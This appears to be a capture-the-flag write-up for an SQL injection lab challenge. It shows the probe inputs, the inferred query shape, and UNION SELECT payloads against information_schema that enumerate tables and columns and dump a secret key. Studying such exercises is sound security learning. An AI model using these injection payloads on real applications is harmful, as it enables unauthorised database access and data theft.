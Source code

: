 ## Challenge - 2

This challenge is similar to the previous one and we have 14 tries to dump the secret key

### Initial Analysis

Here also we have to find  how the developer has given the query so we try giving id the values

```sql
0' or 1=1 --+

0" or 1=1 --+
```

which doesn't give any output and id=

```sql
0) or 1=1 --+
```

gives an output which means the query should be like

```sql
select login_name,password from table_name where id=(input) 
```

### Solving

Now we can find table name like in the previous problem using

```sql
0) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES'; --+
```

which gives us the table name :

**48ov8099bg**

Now we can find the columns in the table using 

```sql
0) union select 1,2,group_concat(column_name) from information_schema.columns where table_name='48ov8099bg' and table_schema='CHALLENGES'; --+
```

we get 4 column names:

**id,sessid,secret_0ZH7,tryy**

The secret key can be in any of these columns but we can always go for the most suspicious one and print the secret key using:

```sql
0) union select 1,2,group_concat(secret_0ZH7) from 48ov8099bg; --+
```

We get the secret key:

**vlKvs6ik1lMqJgA2V3Dk8ZMP**